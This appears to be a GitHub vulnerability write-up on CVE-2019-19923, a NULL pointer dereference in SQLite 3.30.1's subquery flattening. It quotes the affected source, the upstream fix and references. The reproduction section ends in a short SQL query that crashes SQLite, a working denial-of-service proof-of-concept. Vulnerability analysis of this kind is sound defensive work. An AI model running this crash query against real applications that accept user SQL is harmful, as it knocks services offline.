


# CVE-2019-19923 CWE-476 SQLite DoS

## Vulnerability Background
- **SQLite:** A lightweight, embedded relational database management system that does not require separate server processes or complex configurations. SQLite stores data directly on the file system, featuring zero configuration, ease of use, and suitability for small applications. It supports standard SQL statements, provides good data security, and is widely used in desktop and mobile app development due to its lightweight nature.
- **Cursor:** A pointer or handle in database management systems used to operate on and retrieve data. It allows applications to access data in the query result set line by line, rather than loading all data at once. Through cursors, users can traverse, insert, update, or delete the result set. Cursors are typically used in scenarios where large amounts of data need to be processed line by line, providing precise control over the data. The cursor must be declared before use and closed after use to release resources. Although the cursor is powerful, improper use may lead to performance issues, so caution is needed when choosing one.
- **Flattening:** is a technique used to optimize nested queries, commonly found in compiler optimization and database query optimization. In the database field, it eliminates nested structures and improves query efficiency by converting subqueries into outer-level queries as direct extensions. In compiler optimization, smoothing can transform complex data structures or nested loop structures into simpler forms, thereby improving code execution efficiency. Overall, flattening is an optimization method that improves performance by simplifying nested structures.
- **cwe-476 Null pointer dereference:** If a pointer variable is NULL, unreferencing this pointer will cause the program to crash (segmentation fault). Dereferencing refers to the operation of accessing values in the memory unit it points to via pointers.

## Vulnerability Mechanism
In SQLite 3.30.1, flattenSubquery in select.c incorrectly handles certain uses of SELECT DISTINCT, where the right side is the LEFT JOIN of the view. This may cause the NULL pointer to dereference (or result incorrectly).

cwe-476 Null pointer dereferences --> DoS

## Vulnerability Location
1. In the src\select.c file, line 3708 `flattenSubquery` function is an important component used to optimize subqueries. It is mainly responsible for "flattening" certain specific forms of subqueries, that is, attempting to convert certain subqueries into direct extensions of outer queries to improve query performance. Line 3789 is responsible for checking whether the `LEFT JOIN`'s subqueries meet certain specific conditions to ensure the query is correct and the optimizer behaves correctly.

**However, the `if` statement on line 3795 does not check the `SF_Distinct` flag, so when the external query contains `SELECT DISTINCT`, it still flattens the subquery, thus skipping the necessary step to open the cursor of that subquery table. This is a vulnerability**. `SELECT DISTINCT` Requires global deduplication for the entire result set before final output, and only after seeing all possible duplicate rows can you decide which rows to keep. If you still flatten queries containing `DISTINCT`, you may perform deduplication at the wrong stage, either discarding rows that should have been prematurely discarded or suppressing duplicates later than expected, resulting in incorrect results

```c
  /*
  ** If the subquery is the right operand of a LEFT JOIN, then the
  ** subquery may not be a join itself (3a). Example of why this is not
  ** allowed:
  **
  **         t1 LEFT OUTER JOIN (t2 JOIN t3)
  **
  ** If we flatten the above, we would get
  **
  **         (t1 LEFT OUTER JOIN t2) JOIN t3
  **
  ** which is not at all the same thing.
  **
  ** If the subquery is the right operand of a LEFT JOIN, then the outer
  ** query cannot be an aggregate. (3c)  This is an artifact of the way
  ** aggregates are processed - there is no mechanism to determine if
  ** the LEFT JOIN table should be all-NULL.
  **
  ** See also tickets #306, #350, and #3300.
  */
  if( (pSubitem->fg.jointype & JT_OUTER)!=0 ){
    isLeftJoin = 1;
    if( pSubSrc->nSrc>1 || isAgg || IsVirtual(pSubSrc->a[0].pTab) ){
      /*  (3a)             (3c)     (3b) */
      return 0;
    }
  }
```

2. According to the error information in the POC code, before compilation, in the src\vdbe.c file, line 2476 is part of the SQLite Virtual Database Engine (VDBE), and a `OP_IfNullRow` opcode is defined. This opcode is used to handle NULL row (NULL row) that may occur during `LEFT JOIN` operations. Asserting `p->apCsr[pOp->p1] != 0` ensures that the cursor `pOp->p1` is effective when performing operations. If the cursor is not initialized or is closed, this assertion will fail.

If not flattened, the subquery (view) is compiled and executed separately, including `OP_OpenRead` or `OP_OpenEphemeral` operations on its underlying or temporary table, ensuring that cursors are assigned to that table in the `p->apCsr[]`

Since SQLite does not generate corresponding `OP_OpenRead` (or `OP_OpenEphemeral`) instructions for the "new table" where the subquery is located during the first step, during the virtual machine (VDBE) execution phase, the position in array `p->apCsr[]` remains `NULL`

```c
/* Opcode: IfNullRow P1 P2 P3 * *
** Synopsis: if P1.nullRow then r[P3]=NULL, goto P2
**
** Check the cursor P1 to see if it is currently pointing at a NULL row.
** If it is, then set register P3 to NULL and jump immediately to P2.
** If P1 is not on a NULL row, then fall through without making any
** changes.
*/
case OP_IfNullRow: {         /* jump */
  assert( pOp->p1>=0 && pOp->p1<p->nCursor );
  assert( p->apCsr[pOp->p1]!=0 );
  if( p->apCsr[pOp->p1]->nullRow ){
    sqlite3VdbeMemSetNull(aMem + pOp->p3);
    goto jump_to_p2;
  }
  break;
}
```

That is, when the outer query has `SELECT DISTINCT`, SQLite must maintain a deduplication ephemeral table and its cursor during execution to track rows that have already been output, and in `LEFT JOIN` cases, the same cursor supports `NULL` filling for missing rows. If the subquery is mistakenly flattened into the master query in this case, a cursor cannot be created for this temporary table, and all deduplication and `IF_NULL_ROW` protection that rely on this cursor cannot be executed, ultimately resulting in failed assertions or incorrect results.

## Remediation
Add a new conditional check 3D to the `flattenSubquery` function:

- To the right of the `LEFT JOIN` is a subquery.
- Use `DISTINCT` for outer queries.

This ensures that when the query contains `SELECT DISTINCT`, SQLite does not incorrectly flatten the subquery, thus avoiding the issue of unreferencing the null pointer.

```c
if( (pSubitem->fg.jointype & JT_OUTER)!=0 ){
    isLeftJoin = 1;
    if( pSubSrc->nSrc>1 || isAgg || IsVirtual(pSubSrc->a[0].pTab) || (p->selFlags & SF_Distinct) ){
        /* (3a)             (3c)     (3b)     (3d) */
        return 0;
    }
}
```

## Affected Versions
SQLite 3.30.1

## Environment Setup
Start the Docker environment with SQLite version 3.30.1



## Vulnerability Reproduction
Enter the container and execute the following commands in order

1. Enter the container command line and create a SQLite database named `test_db`.

```bash
sqlite3 test_db
```

2. Create a table named `t0` containing two columns: `a` and `b`.

```sql
CREATE TABLE t0(a, b);
```

3. Create an index `t0a` on the column `a` of the table `t0` to improve query performance.

```sql
CREATE INDEX t0a ON t0(a);
```

4. Insert three rows of data into the `t0` table, where column `a` values are all `10`, column `b` values are `10`, `11` and `12`.

```sql
INSERT INTO t0 VALUES(10,10),(10,11),(10,12);
```

5. Execute a `LEFT JOIN` query, where on the right side is a subquery that selects the value plus `1` of columns `a` in the `t0` table as the `c` column. Outer queries use `DISTINCT` to remove deduplications and sort by `c` columns.

```sql
SELECT DISTINCT c FROM t0 LEFT JOIN (SELECT a+1 AS c FROM t0) ORDER BY c ;
```

6. After running, you can see SQL Nite exit



## PoC Analysis
The final query combines `DISTINCT`, a flattened subquery, and a `LEFT JOIN`. In SQLite 3.30.1, `flattenSubquery()` leaves planner state inconsistent and later dereferences a null pointer, causing the CLI process to exit. The PoC demonstrates denial of service for an application that permits execution of attacker-controlled SQL.
## References
[flattenSubquery in select.c in SQLite 3.30.1 mishandles... · CVE-2019-19923 · GitHub Advisory Database](https://github.com/advisories/GHSA-5gmx-grg5-hh7x)

[SQLite: Check-in [862974312e\] --- SQLite: Check-in [862974312e]](https://sqlite.org/src/info/862974312edf00e9)

[Continue to back away from the LEFT JOIN optimization of check-in [41… · sqlite/sqlite@396afe6](https://github.com/sqlite/sqlite/commit/396afe6f6aa90a31303c183e11b2b2d4b7956b35)
